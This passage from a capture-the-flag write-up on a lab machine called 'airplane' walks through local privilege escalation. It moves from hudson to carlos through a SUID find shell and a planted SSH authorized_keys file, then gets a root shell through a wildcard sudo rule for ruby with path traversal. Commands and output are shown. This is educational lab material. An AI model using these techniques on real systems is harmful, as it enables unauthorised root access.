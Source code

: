 I switched back to hudson's session and copied the authorized_keys file to tmp then used suid exploit again to get carlos and copied the file on /tmp to carlos's .ssh directory to get an ssh shell as carlos.

```bash
$ exit
hudson@airplane:~$ cp .ssh/authorized_keys /tmp
hudson@airplane:~$ find . -exec /bin/sh -p \; -quit
$ cd /home/carlos
$ cd .ssh
$ cp /tmp/auth* .
```

This was the only way I was able to connect with an ssh key i don't know why.

### carlos -> root

Let's check our privileges now.

```terminal
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

We can ruby scripts located in root directory as root.

There is a wildcard there so we can just move from the root directory to anywhere we want.

I'll create a ruby script that runs `/bin/bash`

```ruby
system("/bin/bash")
```

```terminal
carlos@airplane:~$ echo 'system("/bin/bash")' > shell.rb
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb
root@airplane:/home/carlos# id
uid=0(root) gid=0(root) groups=0(root)
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://gtfobins.github.io/gtfobins/find/#suid>
